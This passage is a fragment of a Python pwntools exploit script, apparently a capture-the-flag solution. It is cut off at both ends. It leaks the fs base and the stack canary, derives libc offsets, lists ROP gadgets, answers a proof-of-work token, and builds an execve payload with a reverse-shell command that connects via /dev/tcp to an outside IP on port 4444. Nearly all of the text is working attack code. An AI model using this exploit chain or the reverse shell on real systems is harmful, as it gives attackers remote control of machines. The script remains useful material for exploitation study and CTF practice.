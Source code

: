 ```python
            data+=p8(i)
            break
        except:
            r.close()  


rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

  
"""
for i in range(8):
    data += leak(data)
    
data += b"a"*0x20

for i in range(8):
    data += leak(data)
"""    

data = b'\x80\x02\x83\xb4\xea\x7f\x00\x00'+b"a"*0x20 + b"\x00\x81\xdb\x1f\x74\x32\x7f\x7b"


canary_data = data[0x28:0x30]
data = data[:0x8]


fsbase = u64(data)
canary = u64(canary_data)
setcontext = fsbase - 0xc610cb
buf = fsbase-0x102270
libc = fsbase - 0xcb3280
"""
0x00000000000215bf: pop rdi; ret;
0x0000000000130569: pop rdx; pop rsi; ret;
0x0000000000043ae8: pop rax; ret;
0x00000000000d2745: syscall; ret;
"""


context.log_level = 20
r = remote(HOST,PORT)
r.recvline()
s = process(r.recvline()[:-1].split())
s.recvuntil(b"token: ")
ans = s.recvline()[:-1]
s.close()
r.sendline(ans)

r.send(create_header(b""))
r.recvn(0x10)
context.arch = "amd64"

cmd = b'bash -c "bash > /dev/tcp/3.112.16.91/4444 0>&1"'
payload = b"/bin/sh\x00" + b"-c"+b"\x00"*6
payload += cmd.ljust(0x70,b"\x00")
payload += p64(buf)+p64(buf+8)+p64(buf+0x10)+p64(0)
payload = payload.ljust(0x100,b"\x00")

payload += flat(
buf+0x110,libc+0x0000000000043ae8,0x3b,
libc+0x00000000000215bf,buf,
```